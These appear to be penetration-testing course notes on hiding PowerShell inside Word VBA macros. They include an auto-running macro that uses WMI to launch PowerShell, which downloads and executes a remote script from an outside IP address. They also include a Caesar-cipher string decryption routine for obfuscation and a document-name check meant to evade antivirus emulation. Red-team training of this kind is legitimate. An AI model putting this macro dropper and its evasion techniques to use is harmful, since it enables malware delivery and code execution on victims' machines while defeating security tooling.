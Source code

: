 ### **Hiding PowerShell Inside VBA**

Our goal is to use WMI from VBA to create a PowerShell process instead of having it as a child process of Microsoft Word. When performing an action, the Winmgmt WMI service is created in a separate process as a child process of _Wmiprvse.exe_, which means we can de-chain the PowerShell process from Microsoft Word.

```vb
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

### **Obfuscating VBA**

* Decryption routine functions (pears, strawberries, almonds and nuts)
* The main _Nuts_ function performs a _while_ loop through the entire encrypted string where the _Oatmilk_ variable is used to accumulate the decrypted string.
* For each iteration of the loop, the entire encrypted string is sent to _Strawberries_. The function uses _Left_ to fetch the first three characters of the string and returns that value.
* Next, the _Pears_ function is called with the three-character string as input. It treats the three character string as a number, subtracts the Caesar cipher value of 17, and then converts it to a character that is added to the accumulator in _Oatmilk_.
* Once a character is returned, the _Almonds_ function is called inside the loop where the _Right_ function will exclude the first three characters that we just decrypted.
* There are a number of ways to bypass heuristics in VBA that do not involve the use of Win32 APIs.[10](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/introduction-to-antivirus-evasion/hiding-powershell-inside-vba/obfuscating-vba#fn10) One simple technique is to check the document name when the macro runs.
* When most antivirus products emulate the execution of a document, they rename it. During execution, we check the name of the document and if we find that it is not the same as the one we originally provided, we can assume the execution has been emulated and we can exit the code.
* For example, let's assume we named the document runner.doc. If we check the _Name_ property of the _ActiveDocument_ and find it to be anything but runner.doc, we'll exit to avoid heuristics detection. To further the obfuscation, we'll even encrypt this static document name (runner.doc in our case).

```vb


Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function
```
